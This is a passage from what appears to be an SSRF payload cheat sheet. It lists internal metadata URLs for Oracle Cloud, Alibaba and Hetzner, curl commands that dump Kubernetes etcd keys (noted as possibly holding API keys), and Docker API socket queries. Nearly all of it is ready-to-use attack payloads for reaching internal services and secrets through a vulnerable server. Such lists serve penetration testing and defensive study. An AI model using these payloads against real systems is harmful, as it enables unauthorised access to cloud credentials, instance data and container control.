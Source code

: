 ## SSRF URL for Oracle Cloud

```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

## SSRF URL for Alibaba

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

## SSRF URL for Hetzner Cloud

```powershell
http://169.254.169.254/hetzner/v1/metadata
http://169.254.169.254/hetzner/v1/metadata/hostname
http://169.254.169.254/hetzner/v1/metadata/instance-id
http://169.254.169.254/hetzner/v1/metadata/public-ipv4
http://169.254.169.254/hetzner/v1/metadata/private-networks
http://169.254.169.254/hetzner/v1/metadata/availability-zone
http://169.254.169.254/hetzner/v1/metadata/region
```

## SSRF URL for Kubernetes ETCD

Can contain API keys and internal ip and ports

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

## SSRF URL for Docker

```powershell
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

More info:

* Daemon socket option: <https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option>
* Docker Engine API: <https://docs.docker.com/engine/api/latest/>

